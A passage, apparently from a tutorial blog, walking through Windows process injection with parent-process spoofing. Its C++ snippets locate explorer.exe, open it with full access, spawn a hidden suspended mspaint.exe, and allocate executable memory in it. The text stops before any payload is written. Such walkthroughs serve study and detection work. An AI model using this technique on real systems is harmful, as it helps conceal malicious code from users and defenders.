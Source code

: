 ![injection](/assets/images/67/2022-09-06_23-25.png){:class="img-responsive"}    

Then, the execution flow of this trick is detailed in the following steps:

I got `explorer.exe` PID:    

```cpp
int pid = findMyProc(argv[1]);
if (pid) {
  printf("PID = %d\n", pid);
}

HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);
```

Create process `mspaint.exe`:     

```cpp
CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
